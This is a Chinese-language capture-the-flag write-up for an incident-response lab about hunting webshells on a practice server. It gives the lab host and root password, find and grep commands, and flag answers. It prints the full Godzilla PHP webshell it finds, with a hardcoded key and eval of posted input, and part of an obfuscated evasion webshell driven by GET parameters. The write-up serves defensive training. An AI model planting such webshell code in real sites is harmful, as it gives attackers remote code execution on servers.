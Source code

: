 ```yaml
---
title: 玄机 第一章 应急响应 Webshell查杀
description: 玄机 第一章 应急响应 Webshell查杀 WP
pubDate: 10 15 2024
image: https://img.trtyr.top/images/blog/%E7%8E%84%E6%9C%BA%20%E7%AC%AC%E4%B8%80%E7%AB%A0-%E5%BA%94%E6%80%A5%E5%93%8D%E5%BA%94-webshell%E6%9F%A5%E6%9D%80/001%20%E7%AC%AC%E4%B8%80%E7%AB%A0%20%E5%BA%94%E6%80%A5%E5%93%8D%E5%BA%94-webshell%E6%9F%A5%E6%9D%80-4.webp
categories:
  - 网络安全
tags:
  - 靶场
  - 应急响应
---
```


## 靶场环境

环境：69.230.239.23 / 10.0.10.3

靶机账号密码 root xjwebshell

- 黑客webshell里面的flag flag{xxxxx-xxxx-xxxx-xxxx-xxxx}
- 黑客使用的什么工具的shell github地址的md5 flag{md5}
- 黑客隐藏shell的完整路径的md5 flag{md5} 注 : /xxx/xxx/xxx/xxx/xxx.xxx
- 黑客免杀马完整路径 md5 flag{md5}

## WP

来到网站根目录，得到 `shell.php`

![](https://img.trtyr.top/images/blog/%E7%8E%84%E6%9C%BA%20%E7%AC%AC%E4%B8%80%E7%AB%A0-%E5%BA%94%E6%80%A5%E5%93%8D%E5%BA%94-webshell%E6%9F%A5%E6%9D%80/001%20%E7%AC%AC%E4%B8%80%E7%AB%A0%20%E5%BA%94%E6%80%A5%E5%93%8D%E5%BA%94-webshell%E6%9F%A5%E6%9D%80-1.webp)

没有 flag，find 命令寻找

```shell
find . -name "*.php"
```

寻找后得到 webshell 文件为 `./include/gz.php`，拿到 flag

![](https://img.trtyr.top/images/blog/%E7%8E%84%E6%9C%BA%20%E7%AC%AC%E4%B8%80%E7%AB%A0-%E5%BA%94%E6%80%A5%E5%93%8D%E5%BA%94-webshell%E6%9F%A5%E6%9D%80/001%20%E7%AC%AC%E4%B8%80%E7%AB%A0%20%E5%BA%94%E6%80%A5%E5%93%8D%E5%BA%94-webshell%E6%9F%A5%E6%9D%80-2.webp)

观察特征

```
<?php
@session_start();
@set_time_limit(0);
@error_reporting(0);
function encode($D,$K){
    for($i=0;$i<strlen($D);$i++) {
        $c = $K[$i+1&15];
        $D[$i] = $D[$i]^$c;
    }
    return $D;
}
//027ccd04-5065-48b6-a32d-77c704a5e26d
$payloadName='payload';
$key='3c6e0b8a9c15224a';
$data=file_get_contents("php://input");
if ($data!==false){
    $data=encode($data,$key);
    if (isset($_SESSION[$payloadName])){
        $payload=encode($_SESSION[$payloadName],$key);
        if (strpos($payload,"getBasicsInfo")===false){
            $payload=encode($payload,$key);
        }
                eval($payload);
        echo encode(@run($data),$key);
    }else{
        if (strpos($data,"getBasicsInfo")!==false){
            $_SESSION[$payloadName]=encode($data,$key);
        }
    }
}
```

开头的

```php
@session_start();
@set_time_limit(0);
@error_reporting(0);
```

明显是哥斯拉的，github 地址为 `https://github.com/BeichenDream/Godzilla`，加密 MD5 得到 `39392DE3218C333F794BEFEF07AC9257`，得到 flag

第三个 flag 是隐藏的 shell，挨个找呗，发现 `.Mysqli.php` 是加密的。

![](https://img.trtyr.top/images/blog/%E7%8E%84%E6%9C%BA%20%E7%AC%AC%E4%B8%80%E7%AB%A0-%E5%BA%94%E6%80%A5%E5%93%8D%E5%BA%94-webshell%E6%9F%A5%E6%9D%80/001%20%E7%AC%AC%E4%B8%80%E7%AB%A0%20%E5%BA%94%E6%80%A5%E5%93%8D%E5%BA%94-webshell%E6%9F%A5%E6%9D%80-3.webp)

对路径 `/var/www/html/include/Db/.Mysqli.php` MD5 加密得到 `AEBAC0E58CD6C5FAD1695EE4D1AC1919`

然后是找免杀马，文件太多了，因为是哥斯拉的木马，所以免杀文件里很有可能还有 key 字样，我们找目录下所有文件内容带 key 的 php 文件

```shell
grep -r "key" --include "*.php" /var/www/html
```

得到了一堆 php 文件，然后就挨个看吧

![](https://img.trtyr.top/images/blog/%E7%8E%84%E6%9C%BA%20%E7%AC%AC%E4%B8%80%E7%AB%A0-%E5%BA%94%E6%80%A5%E5%93%8D%E5%BA%94-webshell%E6%9F%A5%E6%9D%80/001%20%E7%AC%AC%E4%B8%80%E7%AB%A0%20%E5%BA%94%E6%80%A5%E5%93%8D%E5%BA%94-webshell%E6%9F%A5%E6%9D%80-4.webp)

发现一个特殊文件

```php
<?php

$key = "password";

//ERsDHgEUC1hI
$fun = base64_decode($_GET['func']);
for($i=0;$i<strlen($fun);$i++){
    $fun[$i] = $fun[$i]^$key[$i+1&7];
}
$a = "a";
$s = "s";
$c=$a.$s.$_GET["func2"];
```

MD5加密路径得到 flag `EEFF2EABFD9B7A6D26FC1A53D3F7D1DE`
